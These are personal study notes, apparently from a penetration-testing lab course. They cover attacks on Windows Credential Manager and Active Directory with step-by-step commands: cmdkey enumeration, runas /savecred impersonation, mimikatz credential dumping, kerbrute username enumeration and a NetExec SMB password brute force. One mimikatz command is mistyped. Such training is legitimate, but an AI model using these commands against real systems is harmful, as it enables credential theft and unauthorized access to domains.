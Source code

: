 
# Attacking Windows Credentials Manager
- Allows users to securely store credentials relevant to other systems and websites
- 2 types
	- Web credentials
	- Windows credentials
1. Enumerate credentials stored in current user's profiles
	- `cmdkey /list`
2. For domain credentials, eg. `Domain:interactive=SRV01\mcharles`
	- `Interactive` means credential used for interactive logon sessions
	- Can impersonate the stored user
		- `runas /savecred /user:SRV01\mcharles cmd`
			- Attempts to start cmd as user "SRV01\mcharles"
3. Extract credentials with mimikatz
	- `mimikatz.exe`
		- https://github.com/gentilkiwi/mimikatz
		- clone on Windows
	- `privilege::debu`
	- `sekurlsa::credman`
<kiv, come back to this>


# Attacking AD and NTDS.dit
- This section focus on extracting credentials through **dictionary attack** on AD accounts and **dumping hashes** from NTDS.dit
- (Assume already have a foothold on internal network)
- Windows login protocol:
	- When a Windows system is joined to domain, will no longer defauult to SAM to validate logon request
		- Instead it will send authenticaiton requests to domain controller (DC)
	- But SAM can still be used
		- By specifying hostname of device proceeded by Username (eg. WS01\nameofuser) or with direct acccess to device then typing .\ at logon UI in username field

Dictionary attack with Netexec:
1. Tailor dictionary based on naming convention
	- There are diff naming conventions like 
		- `firstinitiallastname`
		- `firstinitialmiddleinitiallastname`
	- Can often find email structure by Googling domain name, eg @inlanefreight.com to get valid emails. Then use script to scrape social media sites and mashup potential valid usernames. Can use google dorks to search for 'inlanefreight.com filetype: pdf', find valid usernames in PDF properties. 
	- Automated list generator
		- `git clone https://github.com/urbanadventurer/username-anarchy
		- `./username-anarchy -i names.txt > formattednames.txt 
2. Username Bruteforcing with Kerbrute
	- `wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64`
	- `chmod +x kerbrute_linux_amd64`
	- `./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local formattednames.txt`
		- Can find domain from nmap scan
		- Download kerbrute from `https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64`
	- See which usernames from above even work, identify naming convention..
3. Brute force attack aginst target domain controller with tool like NetExec
	- Can use with SMB protocol (like in prev examples) to send logon requests to target DC
	- `netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`
	